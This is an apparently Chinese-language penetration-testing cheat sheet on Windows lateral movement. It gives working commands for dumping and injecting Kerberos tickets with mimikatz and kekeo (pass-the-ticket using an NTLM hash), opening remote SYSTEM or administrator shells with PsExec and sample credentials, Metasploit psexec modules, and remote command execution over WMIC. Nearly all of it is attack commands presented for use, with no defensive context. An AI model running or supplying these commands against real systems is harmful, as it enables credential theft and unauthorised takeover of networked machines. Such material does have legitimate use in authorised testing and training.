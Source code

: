 - 票据传递攻击

```
mimikatz
(1)导出票据
mimikatz "privilege::debug" "sekurlsa::tickets /export"
kerberos::purge 清除票据
mimikatz "kerberos::ptt "c:\ticket.kirbi" 注入票据
```

```
kekeo票据传递

https://github.com/gentilkiwi/kekeo

kekeo "tgt:ask /user:administrator /domain:pentest.com /ntlm:D9F9xxxx" 生成票据
klist purge 清除票据
kerberos::ptt TGT_administrator@PENTST>COM_krbtgt.com@PENTEST.COM>kirbi
```

### PsExec使用
#### psTools
```
https://download.sysinternals.com/files/PSTools.zip
```

- Sysyem权限的shell(-s)

```
PsExec.exe -accepteula \\192.xxx.xxx.xxx -s cmd.exe
```

- Administrator权限的

```
Psexec.exe -accepteula \\192.xxx.xxx.xxx cmd.exe 
```

- 账号密码远程连接

```
psexec \\192.xxx.xxx.xxx -u administrator -p Aa123456 cmd.exe
```

#### metasploit中的psexec

```
exploit/windows/smb/psexec
exploit/windows/smb/psexec_psh(powershell版本)
```

### WMI使用

- 基本命令

```
wmic /node:192.168.100.190 /user:administrator /password:Aa123456 process call create "cmd.exe /c ipconfig >ip.txt"

type \\192.xxx.xxx.xx\c$\ip.txt
```
